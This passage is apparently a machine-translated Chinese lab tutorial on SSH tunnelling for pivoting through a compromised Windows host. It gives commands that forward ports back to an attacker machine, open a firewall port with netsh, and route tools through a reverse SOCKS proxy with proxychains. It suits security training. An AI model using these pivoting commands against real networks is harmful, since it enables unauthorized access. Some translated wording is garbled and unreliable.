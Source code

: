 参考上图，要将服务器上的 3389 端口转发回我们攻击者的机器，我们可以在 PC-1 上使用以下命令：

    C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N

这将建立从 PC-1 到 1.1.1.1 (攻击者电脑）使用 tunneluser用户。

自从 tunneluser 不允许在攻击者 PC 上运行 shell，我们需要运行 ssh 命令与 -N 切换以防止客户端请求一个，否则连接将立即退出。这 -R switch 用于请求远程端口转发，语法要求我们首先指示我们将在 SSH 服务器上打开的端口 （3389），然后是冒号，然后是我们要转发的套接字的 IP 和端口 （3.3.3.3：3389）。请注意，端口号不需要匹配，尽管在本例中需要匹配。

命令本身不会输出任何内容，但隧道将取决于要运行的命令。只要我们愿意，我们可以通过按 CTRL+C 关闭隧道，就像任何其他命令一样。

一旦我们的隧道设置并运行，我们就可以转到攻击者的计算机，并将RDP发送到转发的端口以到达服务器：

    攻击者的机器
    munra@attacker-pc$ xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword


SSH 本地端口转发
本地端口转发允许我们将端口从 SSH 服务器“拉”到 SSH 客户端。在我们的场景中，这可用于获取攻击者计算机中可用的任何服务，并通过 PC-1 上的端口使其可用。这样，任何无法直接连接到攻击者的电脑但可以连接到 PC-1 的主机现在都可以通过透视主机访问攻击者的服务。

使用这种类型的端口转发将允许我们从通常无法连接回我们的主机运行反向 shell，或者只是将我们想要的任何服务提供给与我们没有直接连接的机器。

<img src='https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/d7128a0e5d344785ed570c2b8b90c775.png' />

要从攻击者的计算机转发端口 80 并从 PC-1 使其可用，我们可以在 PC-1 上运行以下命令：

    C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N

命令结构类似于远程端口转发中使用的命令结构，但使用本地端口转发选项。此选项要求我们从攻击者的 PC 角度指示 PC-1 用于接收连接的本地套接字 （*:80） 和要连接的远程套接字 （127.0.0.1:80）。-L

请注意，我们在第二个套接字中使用 IP 地址 127.0.0.1，因为从攻击者的 PC 角度来看，这是保存要转发的端口 80 的主机。

由于我们要在 PC-1 上打开一个新端口，因此我们可能需要添加防火墙规则以允许传入连接 （与 ）。为此需要管理权限：dir=in

    netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80

一旦你的隧道建立起来，任何用户都会将他们的浏览器指向PC-1，并看到攻击者机器发布的网站。http://2.2.2.2:80

---

### 动态端口转发和袜子

虽然单端口转发非常适合需要访问特定套接字的任务，但有时我们可能需要通过透视主机对主机的许多端口运行扫描，甚至跨多台计算机的许多端口运行扫描。在这些情况下，动态端口转发允许我们使用 SOCKS 代理通过主机进行透视并与我们想要的任何 IP 地址/端口建立多个连接。

由于我们不想依赖目标网络中 Windows 计算机上存在的 SSH 服务器，因此我们通常会使用 SSH 客户端通过以下命令建立反向动态端口转发：

    C:\> ssh tunneluser@1.1.1.1 -R 9050 -N

在这种情况下，SSH服务器将在端口上启动SOCKS代理，并通过SSH隧道转发任何连接请求，最终由SSH客户端代理。9050

最有趣的部分是，我们可以通过代理链通过 SOCKS 代理轻松使用我们的任何工具。为此，我们首先需要确保代理链正确配置为将任何连接指向 SSH 用于 SOCKS 代理服务器的同一端口。代理链配置文件可以在您的AttackBox上找到。如果我们向下滚动到配置文件的末尾，我们应该看到一行，指示用于袜子代理的端口：/etc/proxychains.conf

    [ProxyList]
    socks4  127.0.0.1 9050

默认端口为 9050，但只要与我们在建立 SSH 隧道时使用的端口匹配，任何端口都可以工作。

如果我们现在想通过代理执行任何命令，我们可以使用代理链：

    proxychains curl http://pxeboot.za.tryhackme.com

请注意，在某些情况下，某些软件（如nmap）可能无法很好地与SOCKS配合使用，并且可能会显示更改的结果，因此您的里程可能会有所不同。
